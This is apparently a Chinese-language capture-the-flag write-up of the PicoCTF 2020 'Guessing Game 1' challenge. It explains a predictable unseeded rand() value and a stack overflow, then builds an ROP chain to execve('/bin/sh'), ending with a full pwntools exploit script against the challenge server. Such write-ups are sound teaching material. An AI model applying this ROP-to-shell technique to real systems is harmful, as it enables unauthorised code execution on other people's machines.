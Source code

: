 ```yaml
---
title: "PicoCTF2020 Guessing Game 1"
date: 2020-10-14
draft: false
tags: ["PicoCTF", "CTF", "Pwn"]
categories: ["PicoCTF"]
---
```


這題目花了我好幾個小時

https://play.picoctf.org/events/3/challenges/challenge/90

## 開始

我們先看看 Makefile

```make
all:
  gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
  rm vuln
```

這個程式可能有 Buffer Overflow，它用 static link，不能改 plt, got

看看 `do_stuff` 和 `get_random`

```c
long get_random() {
  return rand() % BUFSIZE;
}
int do_stuff() {
  long ans = get_random();
  ans = increment(ans);
  int res = 0;

  printf("What number would you like to guess?\n");
  char guess[BUFSIZE];
  fgets(guess, BUFSIZE, stdin);

  long g = atol(guess);
  if (!g) {
    printf("That's not a valid number!\n");
  } else {
    if (g == ans) {
      printf("Congrats! You win! Your prize is this print statement!\n\n");
      res = 1;
    } else {
      printf("Nope!\n\n");
    }
  }
  return res;
}

```

輸入用 `fgets`，沒有 Buffer Overflow

但 `rand` 沒有初始化，它的值一直是固定的

用 gdb 可以很快找到 `ans` 的值

![](/img/picoCTF2020-Guessing-Game-1/random_num.png)
`ans` 固定為 `84`

> 補注: 截圖沒有截到 `rax`，但是 `rax` 應是 84

可以進到 `win` 裡面了
![](/img/picoCTF2020-Guessing-Game-1/access_first_level.png)

## 決定攻擊手法

`win` 裡面有 Buffer Overflow，明明 `BUFSIZE` 只有 100，卻可以填 360 個字元

```c++
// BUFSIZE = 100
void win() {
  char winner[BUFSIZE];
  printf("New winner!\nName? ");
  fgets(winner, 360, stdin);
  printf("Congrats %s\n\n", winner);
}
```

找到 padding
![](/img/picoCTF2020-Guessing-Game-1/offset.png)

```python
payload = 'a'*120
```

問題來了，我們可以用什麼方法破解它?

1. Shellcode<br>
   不行，有開 NX
2. return to libc<br>
   它用 static link
3. Format string<br>
   printf 看起來不能利用
4. ROP<br>
   好像可以

**決定用 ROP**

## 編寫 ROP chain

使用 ROPgadget
找不到 `pop eax`，只有 `pop rax`
![](/img/picoCTF2020-Guessing-Game-1/cannot_find_pop_eax.png)

把 `/bin/sh` 放到 `.bss` 段

```python
payload += flat([pop_rax, buf, pop_rdx, '/bin', mov_drax_edx, \
                 pop_rax, buf+4, pop_rdx, '/sh\x00', mov_drax_edx])
```

system call execve 參數

- eax: 11
- ebx: 字串 `/bin/sh` 的位置
- ecx: 0
- edx: 0

```python
payload += flat([pop_rbx, buf, pop_rax, 11, pop_rdx, 0, int_0x80])
```

> rcx 找不到適合的 gadget，只好先不理它，反正它常常是 0

> 想知道更多 system call 用法，可以到這個網站
> https://syscalls.w3challs.com/?arch=x86

## 暫存器尺寸

原本以為沒事了，沒想到...
![](/img/picoCTF2020-Guessing-Game-1/reg_size_problem.png)
輸入的資料會黏在一起

我們輸入的是 32-bit，但卻用 64-bit 的暫存器，所以必須在資料後面加上 4 個`\x00`

如果你用 flat，可以在每個指令後面都加入一個 0

```python
flat([pop_rbx, 0, buf, 0, pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
```

## 成果

```python
from pwn import *

context.arch = 'i386'
#r = process('./vuln')
r = remote('jupiter.challenges.picoctf.org', 39936)

s = r.recvuntil('?\n')

r.sendline('84')

buf = 0x6bc3a0
pop_rax = 0x4163f4
pop_rbx = 0x400ed8
pop_rdx = 0x44a6b5
mov_drax_edx = 0x48dd72
mov_rax_rdx = 0x41b570
int_0x80 = 0x468fea

payload = 'a'*120
payload += flat([pop_rax, 0, buf, 0, pop_rdx, 0, '/bin',0 , mov_drax_edx, 0,
                 pop_rax, 0, buf+4, 0, pop_rdx, 0, '/sh\x00',0 , mov_drax_edx, 0])
payload += flat([pop_rbx, 0, buf, 0, \
                 pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
# 有夠醜

raw_input()

r.recvuntil('? ')
r.sendline(payload)

r.interactive()
```

![](/img/picoCTF2020-Guessing-Game-1/final.png)
